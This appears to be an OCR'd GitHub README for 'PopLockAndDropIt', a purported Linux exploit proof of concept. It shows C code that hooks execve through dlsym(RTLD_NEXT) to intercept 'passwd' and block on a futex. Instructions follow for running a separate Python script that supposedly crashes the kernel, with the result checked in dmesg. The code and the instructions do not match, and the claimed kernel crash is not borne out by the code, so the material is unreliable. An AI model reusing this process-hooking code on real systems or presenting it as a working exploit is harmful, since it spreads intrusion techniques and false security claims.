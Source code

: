 ```c
static int (*original_execve)(const char *filename, char *const argv[], char *const envp[]) = NULL;

// Futex implementation for synchronization
static int futex_wait(volatile int *addr, int val) {
    return syscall(SYS_futex, addr, FUTEX_WAIT, val, NULL, NULL, 0);
}

static int futex_wake(volatile int *addr) {
    return syscall(SYS_futex, addr, FUTEX_WAKE, 1, NULL, NULL, 0);
}

// Hooked execve function
int execve(const char *filename, char *const argv[], char *const envp[]) {
    static volatile int futex_value = 0;
    
    // Lazy-load the original execve function
    if (!original_execve) {
        original_execve = dlsym(RTLD_NEXT, "execve");
        if (!original_execve) {
            fprintf(stderr, "Error: Failed to locate original execve\n");
            exit(EXIT_FAILURE);
        }
    }

    // Ensure we are executing passwd
    if (filename && strstr(filename, "passwd")) {
        printf("[HOOK] Intercepted execve: %s\n", filename);

        // Use futex to synchronize before continuing execution
        futex_value = 1;
        futex_wake(&futex_value);
        futex_wait(&futex_value, 1);

        // Print safely after futex is released
        printf("[HOOK] Executing original execve for: %s\n", filename);
    }

    // Call original execve function
    return original_execve(filename, argv, envp);
}

```

## How to use PopLockAndDropIt.py
```bash
# Futex definitely pops into the ip register locks up, and drops a core, hence, Pop Lock and Drop it! 

compiled against ubuntu linux kernel 5.10.xxx and up at time of writing (10/18/2025)


<pre>
python3 ./pop_lock_and_drop_it.py
</pre>

Then read the output in dmesg

<pre>
sudo dmesg | tail -10
</pre>

and you'll see a small core dump and ip=0x00000dead blah blah alluding to it.
```
